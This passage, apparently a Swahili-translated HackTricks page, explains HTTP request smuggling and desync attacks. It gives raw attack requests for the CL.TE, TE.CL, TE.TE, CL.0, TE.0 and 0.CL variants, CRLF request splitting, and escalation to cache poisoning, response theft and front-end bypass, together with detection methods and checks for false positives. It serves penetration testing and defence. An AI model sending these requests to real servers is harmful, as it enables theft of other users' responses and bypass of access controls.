

# HTTP Request Smuggling / HTTP Desync Attack

{{#include ../../banners/hacktricks-training.md}}


## Ni nini

Udhaifu huu hutokea wakati **desyncronization** kati ya **front-end proxies** na server ya **back-end** inaruhusu **attacker** **kutuma** HTTP **request** ambayo **itatambuliwa** kama **request moja** na **front-end proxies** (load balance/reverse-proxy) na kama **requests 2** na server ya **back-end**.\
Hii humruhusu mtumiaji **kubadilisha request inayofuata inayofika kwenye server ya back-end baada yake**.<sup>[[1]](#references)</sup>

### Nadharia

[**RFC Specification (2161)**](https://tools.ietf.org/html/rfc2616)

> Ikiwa ujumbe umepokelewa ukiwa na Transfer-Encoding header field na Content-Length header field, ya mwisho LAZIMA ipuuzwe.

**Content-Length**

> Content-Length entity header huonyesha ukubwa wa entity-body, kwa bytes, uliotumwa kwa mpokeaji.

**Transfer-Encoding: chunked**

> Transfer-Encoding header huonyesha aina ya encoding inayotumika kuhamisha payload body kwa usalama kwa mtumiaji.\
> Chunked inamaanisha kuwa data kubwa hutumwa katika mfululizo wa chunks

### Uhalisia

**Front-End** (load-balance / Reverse Proxy) **huchakata** _**content-length**_ au _**transfer-encoding**_ header, na server ya **Back-end** **huchakata nyingine**, hali inayosababisha **desyncronization** kati ya mifumo hiyo 2.<sup>[[4]](#references)</sup>\
Hii inaweza kuwa muhimu sana kwa sababu **attacker ataweza kutuma request moja** kwa reverse proxy ambayo **itatambuliwa** na server ya **back-end** kama **requests 2 tofauti**. **Hatari** ya technique hii iko katika ukweli kwamba server ya **back-end** **itatambua** **request ya 2 iliyo-injected** kana kwamba **imetoka kwa client anayefuata**, na **request halisi** ya client huyo itakuwa **sehemu** ya **request iliyo-injected**.

### Sifa Maalum

Kumbuka kwamba katika HTTP **character mpya ya mstari huundwa na bytes 2:**

- **Content-Length**: Header hii hutumia **nambari ya desimali** kuonyesha **idadi** ya **bytes** za **body** ya request. Body inatarajiwa kuishia kwenye character ya mwisho; **newline haihitajiki mwishoni mwa request**.
- **Transfer-Encoding:** Header hii hutumia **nambari ya hexadecimal** katika **body** kuonyesha **idadi** ya **bytes** za **chunk inayofuata**. **Chunk** lazima **iishie** kwa **newline**, lakini newline hii **haihesabiwi** na length indicator. Njia hii ya uhamishaji lazima iishie na **chunk yenye size 0 ikifuatiwa na newlines 2**: `0`
- **Connection**: Kulingana na uzoefu wangu, inapendekezwa kutumia **`Connection: keep-alive`** kwenye request ya kwanza ya request Smuggling.

### Visible - Hidden

Tatizo kuu la http/1.1 ni kwamba requests zote hupitia kwenye TCP socket moja, kwa hiyo ikiwa kuna discrepancy kati ya mifumo 2 inayopokea requests, inawezekana kutuma request moja ambayo itachukuliwa kama requests 2 tofauti (au zaidi) na final backend (au hata mifumo ya kati).

**[This blog post](https://portswigger.net/research/http1-must-die)** inapendekeza njia mpya za kugundua desync attacks kwenye mfumo ambazo hazita-flag na WAFs. Kwa hili, inaeleza tabia za Visible dhidi ya Hidden. Lengo hapa ni kujaribu kupata discrepancies kwenye response kwa kutumia techniques ambazo zinaweza kusababisha desyncs bila ku-exploit chochote.<sup>[[15]](#references)</sup>

Kwa mfano, kutuma request yenye host header ya kawaida na header ya `" host"`, ikiwa backend italalamika kuhusu request hii (labda kwa sababu value ya `" host"` si sahihi), hii inaweza kumaanisha kwamba front-end haikuona header ya `" host"` huku final backend ikiitumia, jambo linaloashiria sana desync kati ya front-end na backend.

Hii itakuwa **Hidden-Visible discrepancy**.

Ikiwa front-end ingekuwa imezingatia header ya `" host"` lakini front-end haikufanya hivyo, hii ingeweza kuwa hali ya **Visible-Hidden**.

Kwa mfano, hii ilisaidia kugundua desyncs kati ya AWS ALB kama front-end na IIS kama backend. Hii ilitokea kwa sababu wakati `"Host: foo/bar"` ilipotumwa, ALB ilirudisha `400, Server; awselb/2.0`, lakini wakati `"Host : foo/bar"` ilipotumwa, ilirudisha `400, Server: Microsoft-HTTPAPI/2.0`, ikionyesha kuwa backend ilikuwa inatuma response. Hii ni hali ya Hidden-Visible (H-V).

Kumbuka kwamba hali hii haijasahihishwa katika AWS, lakini inaweza kuzuiwa kwa kuweka `routing.http.drop_invalid_header_fields.enabled` na `routing.http.desync_mitigation_mode = strictest`.<sup>[[15]](#references)</sup>


## Mifano ya Msingi

> [!TIP]
> Unapojaribu ku-exploit hii kwa Burp Suite **zima `Update Content-Length` na `Normalize HTTP/1 line endings`** katika repeater kwa sababu baadhi ya gadgets hutumia vibaya newlines, carriage returns na content-lengths zilizoharibika.

HTTP request smuggling attacks hutengenezwa kwa kutuma requests zenye utata zinazotumia discrepancies katika jinsi servers za front-end na back-end zinavyotafsiri headers za `Content-Length` (CL) na `Transfer-Encoding` (TE). Attacks hizi zinaweza kujitokeza katika aina tofauti, hasa kama **CL.TE**, **TE.CL**, na **TE.TE**. Kila aina inawakilisha mchanganyiko wa kipekee wa jinsi servers za front-end na back-end zinavyoweka kipaumbele kwa headers hizi. Vulnerabilities hutokea kwa sababu servers huchakata request hiyo hiyo kwa njia tofauti, hali inayosababisha matokeo yasiyotarajiwa na ambayo yanaweza kuwa malicious.<sup>[[1]](#references)</sup>

### Mifano ya Msingi ya Aina za Vulnerability



> [!TIP]
> Kwenye jedwali lililotangulia unapaswa kuongeza technique ya TE.0, kama technique ya CL.0 lakini ukitumia Transfer Encoding.

#### CL.TE Vulnerability (Content-Length inatumiwa na Front-End, Transfer-Encoding inatumiwa na Back-End)

- **Front-End (CL):** Huchakata request kwa kutegemea `Content-Length` header.<sup>[[6]](#references)</sup>
- **Back-End (TE):** Huchakata request kwa kutegemea `Transfer-Encoding` header.
- **Attack Scenario:**

- Attacker hutuma request ambayo value ya `Content-Length` header hailingani na urefu halisi wa content.
- Front-end server hutuma request yote kwa back-end, kwa kutegemea value ya `Content-Length`.
- Back-end server huchakata request kama chunked kutokana na `Transfer-Encoding: chunked` header, na kutafsiri data iliyobaki kama request tofauti inayofuata.
- **Mfano:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x
```

#### TE.CL Vulnerability (Transfer-Encoding inatumiwa na Front-End, Content-Length inatumiwa na Back-End)

- **Front-End (TE):** Huchakata request kwa kutegemea `Transfer-Encoding` header.
- **Back-End (CL):** Huchakata request kwa kutegemea `Content-Length` header.
- **Attack Scenario:**

- Attacker hutuma chunked request ambayo chunk size (`7b`) na content length halisi (`Content-Length: 4`) haviendani.
- Front-end server, ikiheshimu `Transfer-Encoding`, hutuma request yote kwa back-end.
- Back-end server, ikiheshimu `Content-Length`, huchakata sehemu ya mwanzo ya request pekee (`7b` bytes), na kuacha iliyobaki ikiwa sehemu ya request inayofuata isiyokusudiwa.
- **Mfano:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0

```

#### TE.TE Vulnerability (Transfer-Encoding inatumiwa na zote mbili, ikiwa na obfuscation)

- **Servers:** Zote zinaunga mkono `Transfer-Encoding`, lakini moja inaweza kudanganywa ili kuipuuzia kupitia obfuscation.
- **Attack Scenario:**

- Attacker hutuma request yenye `Transfer-Encoding` headers zilizofichwa kwa obfuscation.
- Kulingana na server gani (front-end au back-end) inashindwa kutambua obfuscation hiyo, CL.TE au TE.CL vulnerability inaweza ku-exploit.
- Sehemu ya request ambayo haikuchakatwa, kama inavyoonekana na mojawapo ya servers, huwa sehemu ya request inayofuata, hali inayosababisha smuggling.
- **Mfano:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

#### **CL.CL Scenario (Content-Length inatumiwa na Front-End na Back-End zote mbili)**

- Servers zote mbili huchakata request kwa kutegemea `Content-Length` header pekee.
- Hali hii kwa kawaida haisababishi smuggling, kwa sababu kuna alignment katika jinsi servers zote mbili zinavyotafsiri urefu wa request.
- **Mfano:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Normal Request
```

#### **CL.0 Scenario**

- Hurejelea hali ambapo `Content-Length` header ipo na ina value isiyo zero, ikionyesha kuwa request body ina content. Back-end hupuuza `Content-Length` header (ambayo inachukuliwa kuwa 0), lakini front-end hui-parse.
- Ni muhimu katika kuelewa na kutengeneza smuggling attacks, kwa sababu huathiri jinsi servers zinavyoamua mwisho wa request.
- **Mfano:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Non-Empty Body
```

#### TE.0 Scenario

- Kama ilivyo kwenye scenario iliyotangulia lakini ukitumia TE
- Technique [imeripotiwa hapa](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)<sup>[[9]](#references)</sup>
- **Mfano**:
```
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
```
#### `0.CL` Scenario

Katika hali ya `0.CL`, request inatumwa ikiwa na Content-Length kama ifuatavyo:
```
GET /Logon HTTP/1.1
Host: <redacted>
Content-Length:
7

GET /404 HTTP/1.1
X: Y
```
Na front-end haizingatii `Content-Length`, hivyo hutuma request ya kwanza pekee kwa backend (hadi kufikia 7 katika mfano). Hata hivyo, backend huona `Content-Length` na kusubiri body ambayo haifiki, kwa sababu front-end tayari inasubiri response.

Hata hivyo, ikiwa kuna request inayoweza kutumwa kwa backend na ambayo inapata response kabla ya kupokea body ya request, deadlock hii haitatokea. Kwa mfano, katika IIS hali hii hutokea wakati wa kutuma requests zenye maneno yaliyokatazwa kama `/con` (angalia [documentation](https://learn.microsoft.com/en-us/windows/win32/fileio/naming-a-file)); kwa njia hii, request ya awali itapata response moja kwa moja, na request ya pili itakuwa na request ya victim kama ifuatavyo:
```
GET / HTTP/1.1
X: yGET /victim HTTP/1.1
Host: <redacted>
```
Hii ni muhimu kusababisha desync, lakini hadi sasa haitakuwa na athari yoyote.

Hata hivyo, post inatoa suluhisho la hili kwa kubadilisha **[0.CL attack kuwa CL.0 kwa kutumia double desync](https://portswigger.net/research/http1-must-die)**.<sup>[[15]](#references)</sup>

#### Familia mpya za trigger (2026)

Utafiti wa hivi karibuni wa kiwango kikubwa kuhusu desync umeibua **non-classic triggers** kadhaa zinazoweza kutumika tena, ambazo zinafaa kujaribiwa pamoja na CL.TE / TE.CL / TE.0:<sup>[[22]](#references)</sup>

- **HTTP/1.0 + `Transfer-Encoding`**: baadhi ya chains hubadilisha framing mara tu `Transfer-Encoding` inapokuwepo, hata thamani ikiwa si `chunked`. `Transfer-Encoding: gzip` ilitosha kusababisha desync za aina ya CL.0 kwa sababu hop moja bado iliheshimu `Content-Length`, huku nyingine ikiichukulia HTTP/1.0 message kuwa na framing yenye hitilafu.<sup>[[22]](#references)</sup>
- **Response-only semantics ndani ya requests**: `Content-Type: multipart/byteranges` inaweza kufanya kazi kama CL.0 trigger wakati component moja inapotumia tena logic ya response-side multipart na kwa ufanisi kuichukulia request kuwa haina body, huku nyingine bado ikiheshimu `Content-Length`. Hii inapanuka kuwa **Shared-Parser Confusion**: pia jaribu response-oriented features kama `Location`, `Set-Cookie`, `Range`, cache invalidation, na mabadiliko ya CONNECT tunnel state ndani ya requests.<sup>[[22]](#references)</sup>
- **Dual-matching `Content-Length`**: baadhi ya servers huchukulia **duplicate `Content-Length` yoyote** kuwa “haina body”, hata wakati values zote mbili zinafanana, ni valid, na zinalingana kikamilifu na ukubwa wa body. Hop nyingine inaweza kukubali shared length, na kusababisha desync inayofanana na CL.0 huku framing ikiwa safi kwa vinginevyo. Uwekaji wa header ya pili ukiwa na whitespace mwanzoni / unaofanana na obs-fold pia unafaa kujaribiwa.<sup>[[22]](#references)</sup>
- **CONNECT tunnel confusion**: baada ya `CONNECT` kufanikiwa, bytes zinazobaki kutoka kwenye CONNECT request zinaweza kuwa prefix ya request inayofuata (kwa mfano `XGET ...`). Hili linavutia hasa nyuma ya front-ends zinazoforward CONNECT upstream.<sup>[[22]](#references)</sup>

Minimal dual-matching probe:
```http
GET / HTTP/1.1
Host: target
Content-Length: 28
Content-Length: 28

GET /x HTTP/5.1
X: X
```
Ombi la baadaye la victim linalopokea `505 HTTP Version Not Supported` ni ishara thabiti kwamba embedded request imevuka boundary.<sup>[[22]](#references)</sup>

#### Kuvunja web server

Technique hii pia ni muhimu katika hali ambapo inawezekana **kuvunja web server wakati wa kusoma data ya awali ya HTTP** lakini **bila kufunga connection**. Kwa njia hii, **body** ya HTTP request itachukuliwa kuwa **HTTP request inayofuata**.

Kwa mfano, kama ilivyoelezwa katika [**writeup hii**](https://mizu.re/post/twisty-python), katika Werkzeug iliwezekana kutuma baadhi ya herufi za **Unicode**, na hilo lingeifanya server **ivunjike**. Hata hivyo, ikiwa HTTP connection iliundwa ikiwa na header **`Connection: keep-alive`**, body ya request haitasomwa na connection itaendelea kuwa wazi, kwa hiyo **body** ya request itachukuliwa kuwa **HTTP request inayofuata**.<sup>[[10]](#references)</sup>

#### Kulazimisha kupitia hop-by-hop headers

Kwa kutumia vibaya hop-by-hop headers, unaweza kuielekeza proxy **ifute header ya Content-Length au Transfer-Encoding ili HTTP request smuggling iweze kutumiwa**.
```
Connection: Content-Length
```
Kwa **maelezo zaidi kuhusu hop-by-hop headers**, tembelea:


{{#ref}}
../abusing-hop-by-hop-headers.md
{{#endref}}

## Finding HTTP Request Smuggling

Kutambua vulnerabilities za HTTP request smuggling mara nyingi kunaweza kufanywa kwa kutumia timing techniques, ambazo hutegemea kuchunguza muda ambao server huchukua kujibu requests zilizobadilishwa. Techniques hizi ni muhimu hasa katika kugundua vulnerabilities za CL.TE na TE.CL. Mbali na methods hizi, kuna strategies na tools nyingine zinazoweza kutumika kupata vulnerabilities kama hizo:<sup>[[2]](#references)</sup>

### Finding CL.TE Vulnerabilities Using Timing Techniques

- **Method:**

- Tuma request ambayo, ikiwa application ina vulnerability, itasababisha back-end server kusubiri data ya ziada.
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

1
A
0
```

- **Observation:**
- Front-end server huchakata request kulingana na `Content-Length` na kukata message kabla ya wakati.
- Back-end server, ikitarajia chunked message, husubiri chunk inayofuata ambayo haifiki, na kusababisha delay.

- **Indicators:**
- Timeouts au delays ndefu katika response.
- Kupokea error ya 400 Bad Request kutoka kwa back-end server, wakati mwingine ikiwa na maelezo ya kina kuhusu server.

### Finding TE.CL Vulnerabilities Using Timing Techniques

- **Method:**

- Tuma request ambayo, ikiwa application ina vulnerability, itasababisha back-end server kusubiri data ya ziada.
- **Example:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 6

0
X
```

- **Observation:**
- Front-end server huchakata request kulingana na `Transfer-Encoding` na kupeleka message nzima.
- Back-end server, ikitarajia message kulingana na `Content-Length`, husubiri data ya ziada ambayo haifiki, na kusababisha delay.

### Other Methods to Find Vulnerabilities

- **Differential Response Analysis:**
- Tuma versions zilizotofautiana kidogo za request na uangalie ikiwa responses za server zinatofautiana kwa njia isiyotarajiwa, jambo linaloonyesha tofauti ya parsing.
- **Using Automated Tools:**
- Tools kama extension ya Burp Suite inayoitwa 'HTTP Request Smuggler' zinaweza kupima vulnerabilities hizi kiotomatiki kwa kutuma aina mbalimbali za requests zenye utata na kuchanganua responses.
- **Content-Length Variance Tests:**
- Tuma requests zenye values tofauti za `Content-Length` ambazo haziendani na content length halisi, kisha uangalie jinsi server inavyoshughulikia kutolingana huko.
- **Transfer-Encoding Variance Tests:**
- Tuma requests zenye `Transfer-Encoding` headers zilizofichwa au zilizoharibika, na ufuatilie jinsi front-end na back-end servers zinavyojibu kwa njia tofauti kwa manipulations hayo.

### The `Expect: 100-continue` header

Angalia jinsi header hii inaweza kusaidia ku-exploit http desync katika:

{{#ref}}
../../network-services-pentesting/pentesting-web/special-http-headers.md
{{#endref}}

## CRLF-powered request splitting and desynchronization

Ikiwa data inayodhibitiwa na attacker inafanyiwa URL-decoding kabla reverse proxy haijainakili kwenye upstream HTTP/1 request, `%0d%0a` huacha kuwa response/header injection pekee na kuwa primitive ya request-smuggling. Mfano wa kawaida ni `Nginx proxy_pass http://backend$uri;`, kwa sababu `$uri` hurekebishwa kabla upstream request haijaundwa. Sink hiyo hiyo inaweza kufichika katika regex captures, query parameters, cookie values, au custom upstream headers zinazojazwa kutokana na request data. Tazama pia [CRLF (%0D%0A) Injection](../crlf-0d-0a.md).<sup>[[23]](#references)</sup>

### Detection notes

- Pendelea payloads zinazopaswa kusababisha **distinct upstream status code** ikiwa bytes zilizo-injectiwa zitafika back end: invalid HTTP version (`505`), unsupported `Transfer-Encoding` (`501`), invalid `Expect` (`417`), au malformed `Content-Length` (`400`).<sup>[[23]](#references)</sup>
- Ikiwa `CRLFCRLF` husababisha `400` na kufungwa kwa connection mara moja, **usiiondoe sink hiyo katika testing bado**: baadhi ya targets bado huruhusu **single-header injection**, ambayo inatosha kwa desync za aina ya **CL.TE** au request-tunnelling.<sup>[[23]](#references)</sup>
- Usipunguze testing kwenye path pekee. Katika targets halisi, value yenye vulnerability inaweza kunakiliwa kwenye upstream request line kutoka kwa **cookie/session token**, au kuingizwa kwanza kwenye **custom upstream header** na baadaye kutenganishwa kuwa request ya pili.<sup>[[23]](#references)</sup>

### Escalation patterns

- **Request splitting / response queue poisoning:** ikiwa jozi mbili za CRLF zitasalia, maliza first header block na uongeze second request kamili. Request moja ya front end huwa requests mbili za back end, na kubadilisha mpangilio wa response queue; hii huwezesha cross-user response theft, cache poisoning, na wakati mwingine cross-tenant leakage wakati `Host` iliyo-smuggle inaweza kubadilishwa kwenye shared CDN infrastructure.<sup>[[23]](#references)</sup>
- **Single-header fallback -> CRLF-powered `CL.TE`:** ikiwa header moja tu iliyo-injectiwa itasalia, ongeza `Transfer-Encoding: chunked` huku front end ikiendelea kuheshimu `Content-Length` ya kawaida. Incomplete chunk ni confirmation probe imara kwa sababu back end husubiri body bytes zaidi; exploitation huwa pattern ya kawaida ya `0\r\n\r\n<smuggled-prefix>` inayotumia request inayofuata kwenye connection iliyotumika tena.<sup>[[23]](#references)</sup>
- **Blind request-tunnelling disclosure with `Expect`:** inner request inapochakatwa kwenye private upstream lakini response yake kwa kawaida hufichwa, inject `Expect: 100-continue`. Baadhi ya Nginx flows hupeleka `100 Continue` isiyotarajiwa pamoja na tunneled response; hii pia huwezesha bypass ya ACLs za front-end pekee kwa kuweka allowed path kwenye outer request na protected path kwenye inner request.<sup>[[23]](#references)</sup>
- **Browser-sendable desyncs:** kwa kuwa control bytes zinaweza kuwa kwenye URL path au POST body badala ya custom headers zilizokatazwa, desync nyingi zinazoendeshwa na CRLF zinaweza kufikiwa kupitia navigation au `fetch()`. Hii hufanya variants zilizofungwa kwenye connection au IP ziwezekane mara tu sink ya upande wa server inapothibitishwa.<sup>[[23]](#references)</sup>

### HTTP Request Smuggling Vulnerability Testing

Baada ya kuthibitisha ufanisi wa timing techniques, ni muhimu kuhakikisha ikiwa client requests zinaweza kubadilishwa. Njia rahisi ni kujaribu ku-poison requests zako, kwa mfano kufanya request ya `/` itoe response ya 404. Mifano ya `CL.TE` na `TE.CL` iliyojadiliwa awali katika [Basic Examples](#basic-examples) inaonyesha jinsi ya ku-poison request ya client ili kupata response ya 404, licha ya client kulenga kufikia resource tofauti.

**Key Considerations**

Unapopima vulnerabilities za request smuggling kwa kuingilia requests nyingine, zingatia yafuatayo:

- **Distinct Network Connections:** Requests za "attack" na "normal" zinapaswa kutumwa kupitia network connections tofauti. Kutumia connection moja kwa zote hakuthibitishi uwepo wa vulnerability.
- **Consistent URL and Parameters:** Lenga kutumia URLs na parameter names zinazofanana kwa requests zote mbili. Applications za kisasa mara nyingi hupeleka requests kwenye back-end servers maalum kulingana na URL na parameters. Kuzifanya zilingane huongeza uwezekano kwamba requests zote zitachakatwa na server moja, jambo linalohitajika kwa attack kufanikiwa.
- **Timing and Racing Conditions:** Request ya "normal", inayolenga kugundua interference kutoka kwa request ya "attack", hushindana na application requests nyingine zinazoendeshwa kwa wakati mmoja. Kwa hiyo, tuma request ya "normal" mara tu baada ya request ya "attack". Applications zenye shughuli nyingi zinaweza kuhitaji majaribio kadhaa ili kuthibitisha vulnerability kwa uhakika.
- **Load Balancing Challenges:** Front-end servers zinazofanya kazi kama load balancers zinaweza kusambaza requests kwenye back-end systems mbalimbali. Ikiwa requests za "attack" na "normal" zitaishia kwenye systems tofauti, attack haitafanikiwa. Hali hii ya load balancing inaweza kuhitaji majaribio kadhaa ili kuthibitisha vulnerability.
- **Unintended User Impact:** Ikiwa attack yako itaathiri bila kukusudia request ya mtumiaji mwingine, badala ya request ya "normal" uliyotuma kwa ajili ya detection, hii inaonyesha kwamba attack yako imeathiri mtumiaji mwingine wa application. Testing inayoendelea inaweza kuvuruga users wengine, hivyo inahitaji tahadhari.

### Generic cross-request contamination detection

Timing probes bado zinafaa kwa deadlocks za CL.TE / TE.CL, lakini tooling mpya pia hutafuta **cross-request contamination** inayoweza kurudiwa badala ya kukisia kwanza aina ya desync. Rekodi request thabiti ya **control/victim** pamoja na response yake ya kawaida, tuma candidate trigger kupitia **connection tofauti**, kisha rudia mara moja request ileile ya victim. Ikiwa response ya victim inabadilika kwa njia inayoweza kurudiwa, request isolation imevunjika hata kama bado hujui ikiwa bug ni CL.0, TE.0, response-queue poisoning, au kitu kingine kisicho cha kawaida.<sup>[[22]](#references)</sup>

Mbinu nzuri ya classification ni kuweka **recognizable request** kwenye body inayoonekana na kutafuta downstream response inayotambulika. Kwa mfano, `GET / HTTP/777` inapaswa kusababisha `505 HTTP Version Not Supported`, na smuggled `TRACE` request inaweza kurudisha escaped bytes kwenye response. Hii hugundua desync classes zisizojulikana bila kuweka parser discrepancy mapema.<sup>[[22]](#references)</sup>

### Clean probes vs dirty probes

Usichukulie “responses mbili zimerudi” kuwa uthibitisho wa kutosha peke yake. Ikiwa trigger ina utata kiasi kwamba target inaweza kuichanganua kihalali kama **requests mbili zilizopigwa pipeline**, huenda umeona tu tabia ya kawaida ya HTTP/1.1. Pendelea **clean probes**: requests zinazofuata RFC zikiwa na body boundary moja isiyo na utata. Ikiwa clean request bado inasababisha response ya pili, au inabadilisha response ya victim inayofuata, hiyo ni ishara imara zaidi ya desync.<sup>[[22]](#references)</sup>

### Protocol-ruler transformation detection

Ikiwa back end ina **maximum header length** iliyo wazi, tumia kikomo hicho kama ruler ya black-box kugundua front-end rewriting hata kama hakuna header inayorudishwa. Pima header value kubwa zaidi inayokubaliwa, badilisha bytes chache zinazojulikana kwa candidate byte sequence, kisha pima tena. Ikiwa bytes mbili zinasababisha acceptance boundary kupungua kwa takriban bytes 10, kuna uwezekano front end ilizipanua au kuzirekebisha kabla ya kuzifikisha. Hii ni muhimu kwa kugundua Unicode/mojibake rewrites, header dropping/overrides, na spoofing-header normalization ambazo baadaye zinaweza kusababisha kutokubaliana kwa parser ya FE↔BE.<sup>[[22]](#references)</sup>

> [!TIP]
> Ikiwa unataka ku-automate **trigger generation, permutation, na validation** badala ya manual probing pekee, angalia [AI-Assisted Fuzzing & Automated Vulnerability Discovery](../../AI/AI-Assisted-Fuzzing-and-Vulnerability-Discovery.md) kwa generalized LLM/evaluator patterns zinazotumiwa na HTTP Terminator.<sup>[[22]](#references)</sup>

## Distinguishing HTTP/1.1 pipelining artifacts vs genuine request smuggling

Kutumia tena connection (keep-alive) na pipelining kunaweza kwa urahisi kuunda dhana potofu za "smuggling" katika testing tools zinazotuma requests nyingi kwenye socket moja. Jifunze kutenganisha client-side artifacts zisizo na madhara na server-side desync halisi.<sup>[[11]](#references)[[12]](#references)</sup>

### Why pipelining creates classic false positives

HTTP/1.1 hutumia tena TCP/TLS connection moja na kuunganisha requests na responses kwenye stream hiyo hiyo. Katika pipelining, client hutuma requests nyingi mfululizo na kutegemea responses kuwasili kwa mpangilio. False-positive ya kawaida ni kutuma tena mara mbili payload iliyoharibika ya aina ya CL.0 kwenye connection moja:
```
POST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: Y
```
Majibu yanaweza kuonekana kama:
```
HTTP/1.1 200 OK
Content-Type: text/html

```

```
HTTP/1.1 200 OK
Content-Type: text/plain

User-agent: *
Disallow: /settings
```
Ikiwa server ilipuuza `Content_Length` yenye muundo usio sahihi, hakuna desync ya FE↔BE. Kwa reuse, client yako ilituma byte-stream hii, ambayo server iliichanganua kama requests mbili huru:
```
POST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: YPOST / HTTP/1.1
Host: hackxor.net
Content_Length: 47

GET /robots.txt HTTP/1.1
X: Y
```
Impact: hakuna. Umefanya desync ya client yako kutoka kwenye framing ya server.

> [!TIP]
> Modules za Burp zinazotegemea reuse/pipelining: Turbo Intruder yenye `requestsPerConnection>1`, Intruder yenye "HTTP/1 connection reuse", Repeater yenye "Send group in sequence (single connection)" au "Enable connection reuse".

### Vipimo vya Litmus: pipelining au desync halisi?

1. Zima reuse na ufanye jaribio tena
- Kwenye Burp Intruder/Repeater, zima HTTP/1 reuse na epuka "Send group in sequence".
- Kwenye Turbo Intruder, weka `requestsPerConnection=1` na `pipeline=False`.
- Ikiwa tabia hiyo itatoweka, huenda ilikuwa client-side pipelining, isipokuwa unashughulika na targets zilizofungwa kwenye connection/stateful au client-side desync.
2. Ukaguzi wa HTTP/2 nested-response
- Tuma request ya HTTP/2. Ikiwa response body ina HTTP/1 response kamili iliyo nested, umethibitisha backend parsing/desync bug badala ya artifact ya client pekee.
3. Uchunguzi wa partial-requests kwa front-ends zilizofungwa kwenye connection
- Baadhi ya FEs hutumia tena connection ya upstream BE ikiwa tu client ilitumia tena connection yake. Tumia partial-requests kugundua tabia ya FE inayoakisi reuse ya client.
- Tazama PortSwigger "Browser‑Powered Desync Attacks" kwa connection-locked technique.<sup>[[13]](#references)</sup>
4. Uchunguzi wa state
- Tafuta tofauti kati ya request ya kwanza na request zinazofuata kwenye TCP connection ileile (first-request routing/validation).
- Burp "HTTP Request Smuggler" ina connection‑state probe inayofanya hili kiotomatiki.
5. Onyesha wire
- Tumia Burp "HTTP Hacker" extension kukagua concatenation na message framing moja kwa moja unapojaribu reuse na partial requests.

### Connection‑locked request smuggling (reuse-required)

Baadhi ya front-ends hutumia tena connection ya upstream pale tu client inapotumia tena connection yao. Smuggling halisi ipo, lakini inategemea client-side reuse. Ili kutofautisha na kuthibitisha impact:
- Thibitisha server-side bug
- Tumia HTTP/2 nested-response check, au
- Tumia partial-requests kuonyesha kuwa FE hutumia tena upstream pale tu client inapofanya hivyo.
- Onyesha impact halisi hata kama direct cross-user socket abuse imezuiwa:
- Cache poisoning: poison shared caches kupitia desync ili responses ziathiri users wengine.
- Internal header disclosure: reflect headers zilizoingizwa na FE (kwa mfano, auth/trust headers) na pivot kwenda auth bypass.
- Bypass FE controls: smuggle restricted paths/methods kupita front-end.
- Host-header abuse: changanya na host routing quirks ili pivot kwenda internal vhosts.
- Operator workflow
- Rudia kwa reuse iliyodhibitiwa (Turbo Intruder `requestsPerConnection=2`, au Burp Repeater tab group → "Send group in sequence (single connection)").
- Kisha chain kwenda kwenye cache/header-leak/control-bypass primitives na uonyeshe cross-user au authorization impact.

> Tazama pia connection‑state attacks, ambazo zinahusiana kwa karibu lakini kitaalamu si smuggling:
>
>{{#ref}}
>../http-connection-request-smuggling.md
>{{#endref}}

### Vikwazo vya Client‑side desync

Ikiwa unalenga browser-powered/client-side desync, malicious request lazima iweze kutumwa na browser cross-origin. Mbinu za header obfuscation hazitafanya kazi. Lenga primitives zinazofikika kupitia navigation/fetch, kisha pivot kwenda kwenye cache poisoning, header disclosure, au front-end control bypass ambapo downstream components zina-reflect au cache responses.<sup>[[14]](#references)</sup>

Kwa background na end-to-end workflows:

{{#ref}}
browser-http-request-smuggling.md
{{#endref}}

### Tooling ya kusaidia kufanya uamuzi

- HTTP Hacker (Burp BApp Store): huonyesha low-level HTTP behavior na socket concatenation.
- "Smuggling or pipelining?" Burp Repeater Custom Action: https://github.com/PortSwigger/bambdas/blob/main/CustomAction/SmugglingOrPipelining.bambda
- Turbo Intruder: udhibiti sahihi wa connection reuse kupitia `requestsPerConnection`.
- Burp HTTP Request Smuggler: ina connection‑state probe ya kugundua first‑request routing/validation.

> [!NOTE]
> Chukulia effects zinazoonekana kwa reuse pekee kama zisizo issues isipokuwa uweze kuthibitisha server-side desync na kuonyesha impact halisi (poisoned cache artifact, leaked internal header inayowezesha privilege bypass, FE control iliyobypassiwa, n.k.).

## Kutumia vibaya HTTP Request Smuggling

### Kukwepa Usalama wa Front-End kupitia HTTP Request Smuggling

